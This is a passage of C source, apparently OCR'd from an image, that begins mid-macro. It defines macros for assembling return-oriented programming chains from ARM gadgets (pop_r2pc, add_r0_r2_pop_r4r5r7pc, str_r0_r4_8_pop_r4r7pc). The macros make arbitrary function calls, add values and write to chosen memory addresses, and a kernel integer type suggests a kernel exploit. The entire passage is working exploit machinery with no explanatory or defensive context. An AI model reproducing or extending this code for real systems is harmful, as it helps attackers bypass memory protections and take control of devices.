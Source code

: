 push = (uint32_t)0x13371337;\
push = (uint32_t)e;\
push = (uint32_t)f;\
push = (uint32_t)g;\
push = (uint32_t)h;\
push = (uint32_t)i;\
push = (uint32_t)l;\
RopNopSlide(push)
    
#define RopCallFunction9(push, name, a, b, c, d, e, f, g, h, i) RopCallFunction10(push, name, a, b, c, d, e, f, g, h, i, 0)
#define RopCallFunction8(push, name, a, b, c, d, e, f, g, h) RopCallFunction9(push, name, a, b, c, d, e, f, g, h, 0)
#define RopCallFunction7(push, name, a, b, c, d, e, f, g) RopCallFunction8(push, name, a, b, c, d, e, f, g, 0)
#define RopCallFunction6(push, name, a, b, c, d, e, f) RopCallFunction7(push, name, a, b, c, d, e, f, 0)
#define RopCallFunction5(push, name, a, b, c, d, e) RopCallFunction6(push, name, a, b, c, d, e, 0)
#define RopCallFunction4(push, name, a, b, c, d) RopCallFunction5(push, name, a, b, c, d, 0)
#define RopCallFunction3(push, name, a, b, c) RopCallFunction4(push, name, a, b, c, 0)
#define RopCallFunction2(push, name, a, b) RopCallFunction3(push, name, a, b, 0)
#define RopCallFunction1(push, name, a) RopCallFunction2(push, name, a, 0)
#define RopCallFunction0(push, name) RopCallFunction1(push, name, 0)
    
#define RopAddWrite(push, where, what) \
LoadIntoR0(push, where);\
push = pop_r2pc;\
push = what;\
push = add_r0_r2_pop_r4r5r7pc;\
push = 0x44444444;\
push = 0x45454545;\
push = 0x47474747;\
StoreR0(push, where)
    
#define RopAddR0(push, what) \
push = pop_r2pc;\
push = what;\
push = add_r0_r2_pop_r4r5r7pc;\
push = 0x44444444;\
push = 0x45454545;\
push = 0x47474747;\

#define RopAddWriteDeref(push, where, whatptr) \
LoadIntoR0(push, whatptr);\
push = (uint32_t)pop_r4r7pc;\
tmp = (4*6) + (((char*)stack) - ((char*)stackbase)) + segstackbase;\
push = (uint32_t)tmp  - 8; \
push = (uint32_t)m_m_scratch;\
push = (uint32_t)str_r0_r4_8_pop_r4r7pc;\
push = (uint32_t)0x44444444;\
push = (uint32_t)m_m_scratch;\
push = pop_r2pc;\
push = 0;\
LoadIntoR0(push, where);\
push = add_r0_r2_pop_r4r5r7pc;\
push = 0x44444444;\
push = 0x45454545;\
push = 0x47474747;\
StoreR0(push, where)
#define kern_uint_t uint64_t
    